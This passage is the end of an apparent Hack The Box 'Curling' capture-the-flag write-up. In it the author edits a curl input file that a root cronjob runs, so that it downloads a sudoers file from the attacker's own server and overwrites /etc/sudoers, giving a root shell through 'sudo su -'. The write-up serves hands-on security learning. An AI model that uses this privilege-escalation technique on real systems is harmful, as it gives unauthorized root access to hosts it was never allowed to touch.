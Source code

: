 I then set up a Python server and updated the input script to:

```
floris@curling:~/admin-area$ nano input 
floris@curling:~/admin-area$ cat input 
url = "http://10.10.14.114/sudoers.txt"
-o /etc/sudoers
-X GET
```

And once the cronjob runs and my file overwrites the existing sudoers file, we can simply `sudo su -` for a root shell:

![htb_curling_shell.png](../assets/curling_assets/htb_curling_shell.png)

From here we can grab the final flag:

![htb_curling_root.png](../assets/curling_assets/htb_curling_root.png)

Thanks for following along!

-Ryan

--------------------------------
